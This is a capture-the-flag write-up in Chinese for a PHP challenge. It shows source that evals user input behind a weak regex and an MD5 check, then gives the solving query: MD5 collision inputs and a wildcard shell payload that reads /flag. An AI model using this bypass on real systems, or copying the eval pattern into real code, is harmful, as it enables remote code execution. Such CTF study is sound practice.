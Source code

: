 ### NormalShell

> flag在 /flag

访问网站得到页面代码：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if ((string)$_GET['username'] !== (string)$_GET['password'] && md5($_GET['username']) === md5($_GET['password'])) {
    if(!isset($_GET['target'])){
        echo "Getting over it!";  }
    else {
        $res = $_GET['target'];
        if(!preg_match("/[a-zA-Z0-9_$@]+/",$res))
        {
            eval($res);    }
        else {
            die('Soon');
        }  }}
else {  die("NOT NOT YET!");}
?>
```

1. `md5`绕过

    因为有牵制类型转换为了`string`所以只能利用md5强碰撞。

2. 构造字母数字`rce`

    利用`?`来绕过正则，构造`rce`。

3. 进行`GET`传参

    通过`_GET`传参，得到flag。

    ```text
    ?password=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2%20
    &username=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2%20
    &target=?><?=`/???/??? /????`;?>
    ```
